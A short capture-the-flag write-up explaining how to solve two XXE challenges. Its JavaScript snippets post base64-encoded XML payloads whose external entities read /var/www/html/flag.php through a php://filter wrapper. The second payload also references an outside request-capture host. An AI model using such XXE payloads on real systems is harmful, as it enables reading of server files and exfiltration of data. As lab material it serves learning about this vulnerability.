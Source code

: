 
  

#  XXE

The goal for getting the flag on XXE is to change the XML data sent to the server.
BY using vulnerabilities on "ENTITY" element, we can encode in base64 content of file present in the server.
Then we need to find a way to display it and get the flag.
For XXE1 it's simple because the server is printing it.
For XXE2 we need to force the printing or find a way to send the base64 response to a place we can see it.
I opt for trigger an error containing the flag and that worked.


### XXE1
```js
const message = "d"
const xml_payload = `<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php" >]>
<document>
 <message>&xxe;</message>
 </document>`;

    let o = $.ajax({
      url: "index.php",
      type: "POST",
      data: { xml: btoa(xml_payload) },
      success: response => {
        document.getElementById("error").text = response;
          console.log(o.getAllResponseHeaders(),"\n",response)
      }
    });
```

### XXE2

```js
const message = "d"
const xml_payload =
      `<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php" >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://tettte.free.beeceptor.com/">
%file;
]>
<document>
 <message>&xxe;</message>
 </document>    `;

    let o = $.ajax({
      url: "index.php",
      type: "POST",
      data: { xml: btoa(xml_payload) },
      success: response => {
        document.getElementById("error").text = response;
          console.log(o.getAllResponseHeaders(),"\n",response)
      }
    });
```